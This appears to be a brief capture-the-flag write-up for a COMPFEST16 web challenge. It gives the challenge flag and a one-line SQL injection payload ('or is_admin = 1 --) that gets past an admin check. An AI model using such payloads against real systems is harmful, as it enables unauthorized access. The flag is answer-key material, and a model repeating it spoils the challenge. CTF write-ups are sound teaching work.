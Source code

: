 # Title
Baby Rizztekin (500 points)

# Flag
COMPFEST16{aLw4Ys_uS3_pr3P4reD_st4tEm3NTS_e3ae331a90}

# Description
This is the rizztekin prototype I built long ago, but meervix rewrote it, hmph! I'm sure this one is better.

http://challenges.ctf.compfest.id:20003

# Author
rorre

# Solution
sql injection
```sql
'or is_admin = 1 --
```